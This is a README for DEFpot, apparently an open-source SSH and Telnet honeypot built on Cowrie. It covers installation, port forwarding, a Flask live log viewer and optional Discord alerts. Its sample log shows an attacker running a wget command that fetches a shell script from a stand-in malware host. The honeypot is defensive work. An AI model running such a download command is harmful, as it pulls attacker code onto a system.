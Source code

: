<p align="center">
  <img src="images/logo.png" alt="DEFpot logo" width="160">
</p>

# DEFpot  
“Step in the pot. Join the flock.”

## 🐍 Overview

**DEFpot** is a lightweight SSH and Telnet honeypot system based on [Cowrie](https://github.com/cowrie/cowrie), designed to monitor and log unauthorized login attempts in real-time via a clean Flask-based web UI.

Attackers are lured into an isolated fake environment where every move they make — from connection, login, to command execution — is logged and streamed live in a browser.

## 🔥 Features

- ✅ Real-time traffic display via Flask + SSE
- ✅ Auto-scrolling log viewer with dark mode
- ✅ Visual feedback on:
  - Port scanning behavior
  - SSH logins (usernames)
  - Telnet logins (usernames)
  - Commands executed
- ✅ Fully sandboxed via `python3-venv`
- ✅ Systemd service for persistent honeypot runtime

---

## 🧱 Folder Structure

```
DEFpot/
├── cowrie/                # Pre-configured Cowrie honeypot
├── cowrie_web_monitor/    # Flask-based UI
│   ├── app.py             # Main web app
│   ├── templates/
│   │   └── index.html
│   └── static/
│       └── styles.css
├── install.sh             # Auto-setup script
└── README.md              # This file
```

---

## ⚙️ Installation

1. Clone the repository:

```bash
git clone https://github.com/Dark-Avenger-Reborn/DEFpot.git
cd DEFpot
```

2. Run the setup script:

```bash
chmod +x install.sh
./install.sh
```

This will:
- Install system dependencies
- Set up a virtual environment inside `cowrie/`
- Install Cowrie's requirements
- Create a systemd service for Cowrie
- Start Cowrie as a background service

3. Configure your firewall/router to **forward port `22` (SSH)** to **port `2223`** and **forward port `23` (Telnet)** to **port `2224`**on the host machine.  
   This is required because Cowrie listens on `2223` and `2224` (by default) instead of directly on `22` and `23`.

> 🔒 This prevents Cowrie from needing root to bind to port 22 and 23, while still catching incoming SSH and Telnet traffic.

---

## 🚀 Running the Web UI

In a second terminal:

```bash
cd cowrie_web_monitor
python3 app.py
```

Then visit:

```
http://localhost:8080
```

You'll see live attack logs stream in as they happen.

---

## 🕵️‍♀️ What You’ll See

Example logs:

```
192.168.0.5 is scanning ports  
192.168.0.5 logged in as root via SSH  
192.168.0.5 ran: wget http://malware.site/shell.sh
```

---

## 📣 Optional: Discord Webhook Alerts

To enable alerts:

1. Create a Discord webhook.
2. Save the URL in a file named `webhook_url.txt` one directory above the web UI:

```
DEFpot/
├── webhook_url.txt      # Place it here
├── cowrie/
├── cowrie_web_monitor/
```

> ❗ If the file is missing or the webhook is broken, the system **fails silently** — no crashes.

---

## 🔁 Required for Full Operation

✅ Cowrie must be running as a `systemd` service  
✅ `app.py` must be running to serve the web UI  
✅ Port 22 must be redirected to Cowrie’s listening port (default: 2223)
✅ Port 23 must be redirected to Cowrie’s listening port (default: 2224)

---

## 💬 Tips

- Want to run `app.py` as a service? Consider `systemd` or `supervisor`.
- Use `ufw` or `iptables` to control and log forwarded traffic.
- Tail the raw log manually:  
  `tail -f cowrie/var/log/cowrie/cowrie.log`

---

## 📜 License

MIT — see [LICENSE](LICENSE)

---

**DEFpot**  
“Step in the pot. Join the flock.”
